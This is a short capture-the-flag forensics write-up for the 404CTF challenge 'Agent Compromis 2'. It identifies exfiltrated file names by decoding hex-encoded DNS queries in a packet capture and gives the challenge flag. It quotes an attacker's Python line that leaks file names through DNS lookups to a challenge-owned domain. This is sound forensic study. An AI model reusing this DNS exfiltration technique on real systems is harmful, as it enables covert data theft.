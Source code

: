 # Agent Compromis 2

## Task 

We have to find the names of the files that have been exfiltrated by the attacker.

## Process

To do what we are supposed to do, we just look at the python script that we have found and notice that line :

```python
dns.resolver.resolve(binascii.hexlify(filename.encode()).decode() + ".hallebarde.404ctf.fr")
```

It seems like the name of the file is converted to a string of hex and sent as a dns request as such 
``` 
[FILENAME_IN_HEX].hallebarde.404ctf.fr 
```
And from this line, we know that it is always preceded by a dns query for never-gonna-give-you-up.hallebarde.404ctf.fr : 
```python
dns.resolver.resolve("never-gonna-give-you-up.hallebarde.404ctf.fr")
```
We can then use wireshark's search function to find the file names and we find those 4 hex strings :
```
73757065722d7365637265742e706466
657866696c74726174696f6e2e7079
666c61672e747874
68616c6c6562617264652e706e67
```
And then converted it gives us what we were looking for : 
```
super-secret.pdf
exfiltration.py
flag.txt
hallebarde.png
```

The flag : 404CTF{exfiltration.py,flag.txt,hallebarde.png,super-secret.pdf}